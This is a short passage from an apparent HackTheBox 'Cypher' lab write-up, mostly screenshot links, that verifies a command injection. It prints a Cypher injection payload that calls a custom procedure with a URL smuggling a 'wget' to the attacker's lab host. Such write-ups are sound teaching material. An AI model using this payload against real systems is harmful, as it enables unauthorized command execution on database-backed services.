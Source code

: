 ![4ab7d62e5d2dfcde08c04951bcc9cf0c.png](/images/HackTheBox/HTB-Cypher/4ab7d62e5d2dfcde08c04951bcc9cf0c.png)



## Command Injection Attack

After executing the [getUrlStatusCode custom procedure call](#jar-file-analysis).
All we have to do is verifying the [command injection vulnerability](#command-injection-vulnerability)

The screenshot below is verifying the command injection works as expected.

The payload: **test' OR 1=1 WITH 1 AS x CALL custom.getUrlStatusCode(\"http://10.10.14.13:8000/helloWorld;wget http://10.10.14.13:8000/commandinjected\") YIELD statusCode AS y RETURN y as hash //**

![aff64090b7083bd455c76d3202bdd9f7.png](/images/HackTheBox/HTB-Cypher/aff64090b7083bd455c76d3202bdd9f7.png)